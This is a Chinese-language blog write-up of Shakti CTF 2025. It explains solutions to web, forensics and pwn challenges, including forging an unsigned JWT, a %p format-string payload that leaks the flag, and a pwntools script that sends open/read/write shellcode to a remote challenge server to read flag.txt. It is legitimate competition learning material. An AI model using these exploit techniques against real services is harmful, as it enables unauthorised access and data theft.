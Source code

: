 ```yaml
---
title: Shakti CTF 2025
published: 2025-07-26
updated: 2025-08-05
description: "Shakti CTF 2025 writeup"
image: ""
tags: ["CTF Writeup"]
category: "CTF Writeup"
draft: true
---
```


跟 eating 一起打，這次計分沒有分開計 w

131 th / 554

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726231045.png)

總覺得越來越不會寫 osint 了，半題沒寫出來 (╥﹏╥)

---

# Shakti CTF 2025

## web

### Hooman

從題目給的 source code 來看，沒有驗證 JWT 簽章，所以可以用線上工具生成一個 `are_you_hooman` 欄位是 true 的 JWT token 就可以拿到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030552.png)

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030750.png)

隨便在首頁輸入一個名字，然後把 cookie 裡面的 JWT token 換成剛剛生成 `are_you_hooman` 為 true 的 token 就拿到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030455.png)

```txt
shaktictf{now_uk_jwts_hoomannnnn}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030509.png)

## forensics

### Binary Reflection

拿到的 pdf 看起來像被倒過來(第一行變成最後一行、第二行變倒數第二行...，依此類推)

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725205953.png)

先把 pdf 內容倒過來

```bash
tac corrupt.pdf > fixed.pdf
```

然後再用線上工具去看 pdf 裡面有沒有藏東西，就拿到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210554.png)

```txt
shaktictf{pdf_pr3tty_d4m4g3d_f0rm4t}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210526.png)

### Glitch In Frame

封包裡面有文字以及一張 gif

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210952.png)

不知道要怎麼正確的把 gif 拿出來，直接把內容複製出來

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213504.png)

貼到 cyberchef ，output 是一張 gif，可以看出來是在播放的 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213515.png)

用線上工具把 gif 放慢，就能得到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213801.png)

```txt
shaktictf{v1sU4l_d@t4_xf3ltr4t10n_thru_pkt5_and_fr4m3s_is_n0t_a_myth_just_v3ry_und3rr4ted}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725214542.png)

## PWN

### Secret Mission

這題的第一個反應是用 `%p` 去看 stack 上有甚麼

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013334.png)

```txt
AAAAAAAAAAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

在本地測試一下發現只要用很多 `%p` 就可以在 print 出來的東西裡面發現 flag，所以 nc 過去輸入一樣的 payload

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013259.png)

整個貼到 cyberchef 上面就能拿到很像 flag 的東西

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013316.png)

把這段字串貼到 Multi Decoder，再稍微排序一下就得到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013020.png)

```txt
shaktictf{th3_eXtr@ct3d_@bilitie5_v@n1sh_but_th3_fl@g_r3m@1ns}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013235.png)

### Seashells

用 ghidra 看程式碼，首先會讀取最大 0x500 (1280 bytes) 的輸入到 local_518，然後使用 mmap() 建立一塊 可讀、可寫、可執行的記憶體區段（RWX），並將輸入複製到該區段，再把這段記憶體區段當作函式來呼叫，(\*\_\_dest)(); 直接跳入 shellcode 執行

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023602.png)

`seccomp_initialisation()` 裡面有允許的 syscall，例如`open`、`read`、`write` 等少數幾個

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023641.png)

讓 chatgpt 生 script 然後再調整檔名

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

shellcode = asm('''
    xor rax, rax
    lea rdi, [rip + filename]
    xor rsi, rsi
    mov rax, 2          /* sys_open */
    syscall

    mov rdi, rax        /* fd */
    lea rsi, [rip + buf]
    mov rdx, 100
    mov rax, 0          /* sys_read */
    syscall

    mov rdi, 1          /* stdout */
    lea rsi, [rip + buf]
    mov rdx, 100
    mov rax, 1          /* sys_write */
    syscall

    mov rax, 60         /* sys_exit */
    xor rdi, rdi
    syscall

filename:
    .asciz "flag.txt"
buf:
    .space 100
''')

def main():
    p = remote("43.205.113.100", 8855)

    prompt = p.recvuntil(b'>>')
    print(prompt.decode())

    p.send(shellcode.ljust(0x500, b'\x00'))

    flag = p.recvrepeat(timeout=3)
    print("[*] Flag output:\n", flag.decode())

    p.close()

if __name__ == "__main__":
    main()
```

成功拿到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023516.png)

```txt
shaktictf{u_g0t_wh@t_u_w15h3d__th3_s3@sh311_f1@g}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023316.png)

---

分享一下很酷的東西，如果隊友沒有提示我的話我可能這輩子都找不到這次的 welcome flag 了

不確定甚麼原理，但是在 discord 裡面，這一段符號後面的內容除了把整份文字複製下來才可以看到，並且送出訊息後不會通知

```txt
  ||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​|| _ _ _ _ _
```

應該是整到很多人，太好玩了，到比賽結束前還有人在文字頻道 /flag
